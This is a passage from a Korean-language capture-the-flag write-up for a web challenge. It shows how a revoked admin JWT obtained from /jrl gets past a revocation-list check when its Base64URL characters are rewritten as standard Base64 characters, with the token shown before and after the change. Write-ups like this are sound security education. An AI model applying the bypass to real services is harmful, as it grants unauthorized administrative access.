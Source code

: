 결과적으로 `/jrl` 을 요청해서 얻은 JWT는 `admin` 이 `True` 인 값이므로, 이 값에서 `Base64URL` 일부 문자를 `Base64` 문자를 변경합니다. 이후 변경된 JWT를 쿠키 `session` 에 담아 `/flag` 를 요청하면 `jrl` 과 비교하는 구문에서 문자열이 다르므로 JWT 폐기 목록을 검증하는 구문을 우회할 수 있습니다.

## Exploit

`/jrl` 을 요청해서 JWT 값을 획득합니다.

![image](./images/image-005.png)

이후 위 JWT의 값에서 `Base64URl` 문자(`-`, `_`)를 `Base64` 문자(`+`, `/`)로 변경합니다.

```bash
# 변경 전
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6dHJ1ZSwidWlkIjoiMTMzNyJ9.BnBYDobZVspWbxu4jL3cTfri_IxNoi33q-TRLbHV-ew

# 변경 후
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6dHJ1ZSwidWlkIjoiMTMzNyJ9.BnBYDobZVspWbxu4jL3cTfri/IxNoi33q+TRLbHV+ew
```

그 다음 변경된 JWT 값을 Cookie `session` 에 담아 `/flag` 를 요청하면 플래그를 획득할 수 있습니다.

![image](./images/image-006.png)
